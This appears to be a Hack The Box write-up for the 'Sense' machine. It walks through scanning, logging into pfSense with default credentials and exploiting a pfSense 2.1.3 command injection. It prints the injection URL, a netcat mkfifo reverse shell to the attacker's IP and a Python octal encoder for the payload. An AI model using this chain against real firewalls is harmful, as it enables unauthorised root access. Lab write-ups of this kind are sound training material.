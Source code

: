 # Sense [HTB](https://app.hackthebox.com/machines/111)
![sense-01]()

## Recon 

After adding the target to my `/etc/hosts` file, I fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- sense.htb -oN nmap.result
```

![nmap-res-02]()

We have the following:

+ A lighthttpd V1.4.35 HTTP server on ports 80 & 443. 

The target runs a single HTTP service with a lighthttpd server. Port 80 immediately redirects us to an SSL connection, let's have a look. 


## HTTP Port 443

I open up my browser and type `https://senhse.htb`, my browser warns me about the validity of the certificate of this site, I accept the risks and ask to load the page anyway:

![site-03]()

The site references [DNS rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding). These attacks usually involve a victim user clicking on a link, or a hidden HTML tag that leads to a domain controlled by the attacker's DNS server. 

The DNS rebinding attack leverages  the control the attacker has over the DNS to bypass the [Same-Origin Policy](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh3dqTu8qBAxVsh_0HHTVpDkAQFnoECBUQAw&url=https%3A%2F%2Fweb.dev%2Fsame-origin-policy%2F&usg=AOvVaw3oH90bDU0AARo5NNkbh5nZ&opi=89978449) imposed by modern web browsers. This is possible because the browser determines the origin of the request based on the `Hostname` parameter and general URI scheme, but because hostnames can point to any arbitrary IP, this can be leveraged to bypass the `Same-Origin Policy` to make malicious requests to other resources on the victim user's behalf.

Some examples of attack vectors can be internal network components in an enterprise enviorement, internal resources on the server itself, other sites altogether, like banking sites, etc. Here is the general scheme of the attack:

![dns-rebind-04]()

Palo Alto has a nice [artical](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwiVt9rOvsqBAxUkhv0HHUP2AQ4QFnoECBAQAQ&url=https%3A%2F%2Funit42.paloaltonetworks.com%2Fdns-rebinding%2F&usg=AOvVaw1ZW27d0rhTxtJWKsFNLpUl&opi=89978449) about DNS rebinding attacks if you want to read more about it.


To avoid potential DNS rebinding attacks, the server replied with the above error. Rejecting requests with hostnames would eliminate any potential for DNS rebinding attacks, though it seems rather extreme. 

I dont see much potential in pulling a DNS rebinding attack againts this target. Let's open the web server through an IP address instead:

![login-req-05]()

This is an admin login portal for the [pfSense](https://www.pfsense.org/) open source firewall. At first I tried default credentials, when that failed I tried to brute force the login page. I wrote a simple script in Python to bypass the anti-csrf and session cookies which did work, but I've noticed that I get blocked after about 15 failed attempts. 

So instead, I decided to run a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u https://10.129.103.206/FUZZ -e .php,.cgi,.js,.html,.txt,.json,.xml
```

This yields quite a lot of results, but the most interesting one to me is this:

![users-06]()

If we open this file we can see the following:

![file-07]()

This gives us a username. The password is set to be "company default", if we search online for default pfSense credenitlas we will find that the default password for most if not all appliances is `pfsesne`. 

After a few failed login attempts I found that the username is misspelled, and the credentials that do work are `rohit : pfsense`. This gets us inside the pfsense admin panel:

![admin-panel-08]()

We can see that the version is 2.1.3 for a 64-bit FreeBSD machine. Let's search for exploits with:

```bash
searchsploit pfsense 2.1.3
```

![searchsploit-09]()

Command Injection sounds good. After a bit of searching online I found that there is also a metasploit version available, so I decided to review the source code to try and pull this off manually:

![source-10]()

Two things are going on here. First the actual payload is encoded to octal values. Next, the actual exploitation is executed via a Get request to the following URL:

```bash
/status_rrd_graph_img.php?database=-throughput.rrd&graph=file|printf%20%27<PAYLOAD>%27|sh|echo
```

We need to request this page after we have logged in to the pfsense admin panel and we have an active session, which we do have. So all we need is a reverse shell payload for a BSD platform, encode it to octal value, and send the GET request. 

The payload I got [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Next, we need to encode it, we can do this with the following python code:

```python
command = """
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 443 >/tmp/f
"""

payload = ''
for char in command:
    payload += ('\\' + oct(ord(char)).lstrip('0o'))

print(payload)
``` 

Finally, we need to URL encode the `|` characters found in the URL to `%7c`. All in all my final request to the server looks like this:

![req-11]()

This gets me a shell as root:

![root-12]()

